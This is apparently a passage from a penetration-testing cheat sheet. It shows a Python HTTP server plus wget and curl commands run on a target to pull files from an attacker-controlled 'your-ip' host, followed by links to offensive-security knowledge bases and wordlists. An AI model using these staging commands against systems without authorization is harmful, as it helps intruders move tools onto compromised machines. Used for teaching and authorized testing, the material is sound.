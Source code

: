 ## 📡 File Transfer Methods
Move files between your machine and the target.

#### Example
```bash
# Using Python HTTP server (on your machine)
python3 -m http.server 8000
```
```bash
# Download file (on target)
wget http://your-ip:8000/file.txt
curl http://your-ip:8000/file.txt -o file.txt
```

## 📚 Useful Resources

### 📖 HackTricks
Knowledge base for offensive security techniques.

🔗 [book.hacktricks.xyz](https://book.hacktricks.xyz)

### 📚 Wordlists
Collections of words and patterns for brute-forcing and fuzzing.

#### Common Wordlists:
- [KaliLists](https://www.kali.org/tools/wordlists/) - Default wordlists in Kali Linux
- [SecLists](https://github.com/danielmiessler/SecLists) - Collection of multiple types of lists
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) - Useful payloads and bypass for various scenarios
